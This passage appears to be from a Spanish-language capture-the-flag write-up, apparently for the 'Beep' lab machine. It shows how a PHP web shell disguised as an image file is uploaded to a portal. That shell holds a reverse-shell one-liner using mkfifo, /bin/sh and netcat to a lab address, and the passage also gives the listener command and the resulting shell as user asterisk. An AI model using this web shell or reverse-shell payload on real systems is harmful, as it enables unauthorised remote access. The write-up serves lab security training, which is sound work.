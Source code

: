 Realizamos la búsqueda de posibles vías de explotación en el portal, logrando ingresar a los detalles de la organización.

<p align="center">
<img src="/assets/images/beep/06-page.png"> 
</p>

En esta sección es posible subir archivos de extensión `JGP`, por lo que se procede a generar una shell en `PHP` de extensión `JGP` de la siguiente manera.

```bash
vim shell.php.jgp
<?php
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4564 >/tmp/f")
?>
```

Guardamos la shell y subimos el contenido donde se almacena la imagen de la organización, no sin antes ponernos en escucha por el puerto que asignamos en la `shell.php.jgp`.

```bash
nc -lnvp 4564
```

Guardamos el archivo en la web y obtenemos una shell interactiva con el usuario `asterisk`

```bash
sh-3.2$ whoami
asterisk
```

## INTRUSION WEBMIN
